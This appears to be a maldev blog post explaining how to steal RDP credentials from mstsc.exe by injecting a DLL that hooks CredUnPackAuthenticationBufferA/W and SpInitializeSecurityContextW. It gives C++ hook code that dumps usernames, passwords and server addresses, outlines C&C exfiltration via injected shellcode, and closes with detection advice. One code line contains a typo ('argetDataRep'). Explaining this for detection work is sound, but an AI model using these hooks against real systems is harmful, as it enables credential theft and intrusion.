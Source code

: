 ```yaml
---
layout: post
title: "Stealing rdp credentials"
date: 2024-08-31 12:00:00
tags : [maldev, windows]
---
```


# Disclamer

First of all, a small disclaimer. The author does not encourage you to use the project shown in this article to steal other people's authorization data. This article explains how attackers can steal your authorization data from mstsc.exe ( WINDOWS RDP CLIENT ) and how to detect it.

# Introduction

As you have already understood from the title, today we are going to talk about stealing RDP authorization data from the mstsc.exe client and how to detect this type of attack. It is probably worth noting that there are several similar projects on Github that implement this technique, RDPCredentialStealer, RDP-THIEF. They all use almost the same technique, which we are going to break down today. Let's get to the main part.

# Windows Credential Prompting 

When connecting to any server via mstsc.exe we enter data for authorization on the server. To request authorization data in Windows we use "Credui.dll" library, its api is completely open, you can see it [here](https://learn.microsoft.com/en-us/windows/win32/api/wincred/).

I think many people who have connected to Windows servers have seen this window : 

![Credentials_Enter_Win11_Window](/posts_assets/stealing_rdp_credentials/credentials_enter_win11_window.png).

Or this window :

![Credentials_Enter_Win10_Window](/posts_assets/stealing_rdp_credentials/credentials_enter_win10_window.png)

Both windows are called by the CredUIPromptForWindowsCredentialsA/W function to retrieve the authorization data ( The first screenshot shows the interface of the newer Windows 11 and the second shows Windows 10 ). After successful entry, the data is stored in a packed blob structure. If the program wants to get the credentials in text format, it can use the CredUnPackAuthenticationBufferA/W function.

# Stealing rdp credentials

Due to the fact that the request and input of authorization data occurs in the same process mstsc.exe we can easily intercept the entered data. The most obvious option is to inject our library into the process and hook the functions we need using the hook technique. Hooks allow us to replace any function in the program with our own. In this case, the hook will be a proxy function, which will allow us not to lose the functionality of our application. If you want to learn more about this technique you can read these articles [here](https://medium.com/geekculture/basic-windows-api-hooking-acb8d275e9b8) and [here](https://cocomelonc.github.io/tutorial/2021/11/30/basic-hooking-1.html). To install the hooks I decided to use the most convenient library for me, namely Minhook, in theory you could use Detours or write your own library from scratch. We will hook exactly CredUnPackAuthenticationBufferA/W, because it decode the Blob'a that was obtained from the CredUIPromptForWindowsCredentialsA/W function. Below is the code of the hook function : 

```cpp 
BOOL hCredUnPackAuthenticationBufferA(
    DWORD dwFlags,
    PVOID pAuthBuffer,
    DWORD cbAuthBuffer,
    LPSTR pszUserName,
    DWORD* pcchlMaxUserName,
    LPSTR pszDomainName,
    DWORD* pcchMaxDomainName,
    LPSTR pszPassword,
    DWORD* pcchMaxPassword
) {

    BOOL status = reinterpret_cast<tCredUnPackAuthenticationBufferA>(oCredUnPackAuthenticationBufferA)(dwFlags, pAuthBuffer, cbAuthBuffer, pszUserName, pcchlMaxUserName, pszDomainName, pcchMaxDomainName, pszPassword, pcchMaxPassword);

    wprintf(L"[ + ] Dumped creds -> username : %s : domain : %s : password : %s \n", pszUserName, pszDomainName, pszPassword); 

    return status;
}
```

P.s If we set the hook to CredUIPromptForWindowsCredentialsA/W, we would have to call CredUnPackAuthenticationBufferA/W separately, and this is additional and unnecessary work.

Well, we have received the data for logging on to the server, but we still haven't found out its ip address. Obviously, it is passed to some Windows Api function and we just need to find such a function. In the course of small searches we found several functions that get the Ip address of the target server when requesting authorization. These functions are "CredReadW" from "Advapi32.dll" library, "SpInitializeSecurityContextW" from "credssp.dll" library. I decided to hook "SpInitializeSecurityContextW" because I found it first of these 2. The code of the hook looks like this :

```cpp
long long hSpInitializeSecurityContextW(void* phCredential,
    void* phContext,
    void* pszTargetName,
    unsigned long  fContextReq,
    unsigned long  Reserved1,
    unsigned long  TargetDataRep,
    void* pInput,
    unsigned long  Reserved2,
    void* phNewContext,
    void* pOutput,
    unsigned long* pfContextAttr,
    void* ptsExpiry) {


    if (pszTargetName != nullptr) {
        wprintf(L"[ + ] Leaked ip -> %s \n", pszTargetName);
    }

    return reinterpret_cast<tSpInitializeSecurityContextW>(oSpInitializeSecurityContextW)(phCredential ,phContext, pszTargetName,
fContextReq, Reserved1, argetDataRep, pInput, Reserved2, phNewContext, pOutput,pfContextAttr, ptsExpiry);
}
```

Injecting the library in the "mstsc.exe" process and authorize to the server, and get this output : 

![stealed_credentials_output](/posts_assets/stealing_rdp_credentials/stealed_credentials_output.png)

You can see the full project code at this [link](https://github.com/ch4daev/rdp_credentials_stealer) 

# Possible attack vector

Here I would like to discuss one of the possible attack vectors that can be used by an attacker in combination with this technique. 

Let's assume that the attacker has already established a foothold in our system with the help of his backdoor and can perform any necessary actions on victim machine. In its current form, our technique will be detected by any, even the simplest built-in or installed AV. So what can an attacker do to hide the malware from AV eyes? The most obvious way is to turn the malware into a position-independent shellcode that will be injected into the mstsc.exe process whenever it is start in the system. After initializing in the process and installing hooks, it would wait for user input and once received, send it to the C&C server. Here is how I have outlined the approximate attack vector : 

![possible_attack_vector](/posts_assets/stealing_rdp_credentials/possible_attack_vector.png)

Actions that occur in the same process are highlighted in one color for convenience

# How to defence

For regular users, a good AV with a constantly updated threat database, as cliché and silly as it may sound, can protect against this type of threat. Ordinary users usually do not use corporate EDR systems for which a protection specialist can write rules that can be extremely useful in detecting this type of threats.

P.s I had a good option for regular users, but I couldn't release it. I wanted to try to configure the mstsc.exe process as a PPL (Protect Process Light) process, in this case no process in Ring 3 (user-mode) would be able to get a Handle to access the process memory and therefore write something to it, even with Administrator rights.

For corporate users with EDR it is necessary to control open Handles to the process mstsc.exe from unknown processes, as well as attempts to write to the virtual memory of the process. You can also control attempts to connect mstsc.exe to suspicious api addresses that do not match the white list of servers. You can also check the integrity of the process memory, in particular the credui.dll library.

As well as many etc.

# Summary 

In conclusion, I would like to say that the technique is very interesting, and it is not that difficult to implement for your own understanding. It is rather narrowly focused and probably won't be used to attack ordinary users, but there have probably been such cases.


